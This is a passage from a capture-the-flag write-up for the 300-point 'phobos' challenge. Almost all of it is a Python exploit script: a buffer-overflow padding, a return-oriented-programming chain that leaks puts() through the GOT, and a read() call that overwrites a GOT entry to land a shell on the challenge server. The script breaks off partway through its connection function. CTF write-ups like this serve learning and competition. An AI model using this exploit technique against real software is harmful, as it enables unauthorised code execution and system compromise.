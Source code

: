 Phobos
---

Next, we turned to phobos for 300 points, which is nearly the same binary but without NX! After a few small changes to the previous exploit, we obtained the flag for phobos as well:


```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf
  
payload = "A"*136   # ty Swappage!

'''
0x000002bc : pop r12; pop r13; pop r14; pop r15; ret
0x000002b6 : xor ebx, ebx; nop [rax + rax]; mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
0x00000060 : pop rbp; ret
'''

base = 0x400590
# prologue, needed for later!
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

payload += q(0x000002dc+base)
payload += q(0x600c70)  # value for r12 -> puts@got
payload += q(0)         # value for r13 -> goes into rdx 
payload += q(0)         # value for r14 -> goes into rsi
payload += q(0x600c70)  # value for r15 -> goes into rdi -> leak addr of puts()

payload += q(0x000002b6+base)
payload += q(0) * 7
payload += q(0x400570)  # fflush@plt

# now read() to overwrite printf()
payload += q(0x00000060+base)   # pop rbp ; ret
payload += q(1) # value for rbp

payload += q(0x000002dc+base)
payload += q(0x600c80)  # value for r12 -> read@got
payload += q(8)         # value for r13 -> goes into rdx -> count
payload += q(0x600c70)  # value for r14 -> goes into rsi -> overwrite printf()
payload += q(0)         # value for r15 -> goes into rdi -> 0 -> stdin

payload += q(0x000002b6+base)
payload += q(0) * 7

payload += q(0x4006ec) # restart, so the binary will execute puts() -> one shot rce, lands a shell

def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10106))
    #s.connect(('localhost', 4444))
```